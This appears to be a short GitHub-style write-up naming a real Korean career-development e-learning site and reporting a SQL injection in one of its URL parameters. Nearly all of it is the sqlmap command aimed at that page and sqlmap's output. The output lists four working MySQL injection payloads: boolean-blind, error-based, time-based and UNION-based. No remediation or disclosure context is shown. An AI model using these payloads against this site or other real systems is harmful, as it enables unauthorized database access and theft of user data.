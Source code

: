 linkstart 온라인 직무박람회 sql injection

http://linkstart.co.kr/

E-learning platform providing online lectures on career development (career, employment, entrepreneurship)

## sqlmap
```
sqlmap -u "url/live/live_sub01_view.html?idx=1"
```
```
Parameter: idx (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: idx=1' RLIKE (SELECT (CASE WHEN (6867=6867) THEN 1 ELSE 0x28 END))-- oKGs

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: idx=1' AND (SELECT 9852 FROM(SELECT COUNT(*),CONCAT(0x71716b6271,(SELECT (ELT(9852=9852,1))),0x7162716a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- QeMM

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: idx=1' AND (SELECT 8081 FROM (SELECT(SLEEP(5)))XhQu)-- Elkd

    Type: UNION query
    Title: MySQL UNION query (NULL) - 11 columns
    Payload: idx=-5580' UNION ALL SELECT NULL,NULL,NULL,NULL,CONCAT(0x71716b6271,0x6278644442686a7653714f767a695964496c59784866637657717453734a6e5147724674634c7349,0x7162716a71),NULL,NULL,NULL,NULL,NULL,NULL#
```
